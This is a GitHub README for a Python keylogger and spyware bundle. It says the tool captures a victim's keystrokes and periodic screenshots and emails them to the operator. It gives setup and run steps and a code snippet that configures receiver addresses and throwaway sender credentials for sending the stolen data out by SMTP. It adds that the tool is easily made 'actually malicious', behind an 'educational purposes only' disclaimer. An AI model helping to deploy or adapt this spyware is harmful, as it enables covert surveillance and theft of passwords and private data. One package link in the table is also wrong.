 # Python Keylogger

[![MIT Licence](https://badges.frapsoft.com/os/mit/mit.png?v=103)](https://opensource.org/licenses/mit-license.php)
---                                           

This is a proof-of-concept keylogger and general spyware bundle. It tracks user input and what is currently shown on their screen at regular intervals and sends you the data via email. Given the current implementation for educational purposes it is not using the best approach, but can be easily modified to be actually malicious.


### Requirements: Python 3+

## Usage

In `Start.py`, in the `send_email` function, add the emails on which you want to receive the tracked data in `receiver_emails` and the credentials of the throwaway email that will send you the data in `yag=yagmail.SMTP()`.

Example:

```Python
def send_email():
    receiver_emails = ['receiver-email@outlook.com'] 
    subject = "Keylog Data" + datetime.now().strftime("%d-%m-%Y %H-%M-%S")   
    yag=yagmail.SMTP("sender-email@gmail.com","throwaway123")
```

#### Note: Since most people use Windows, this script has been modified, if you use Linux install PILL linux

## Prerequisites
```sh
$ pip install -r requirements.txt
```

## Usage 

```sh
$ python start.py
```

### Packages
| [`pyautogui`](https://github.com/psf/requests) | PyAutoGUI is a cross-platform GUI automation Python module for human beings. Used to programmatically control the mouse & keyboard.|<br>
| [`pynput`](https://pypi.org/project/pynput/) | This library allows you to control and monitor input devices.|<br>
| [`yagmail`](https://pypi.org/project/yagmail/) | Sending an Email is simple:.|
<br><br> 


### Please note, this repo is for educational purposes only. No contributors, major or minor, are to fault for any actions done by this program.
<br><br> 

---
### 🔓 License 
MIT © [Michael Radu](https://michaelradu.cf) <br>
Don't really understand licenses or tl;dr? Check out the [MIT license summary](https://tldrlegal.com/license/mit-license).
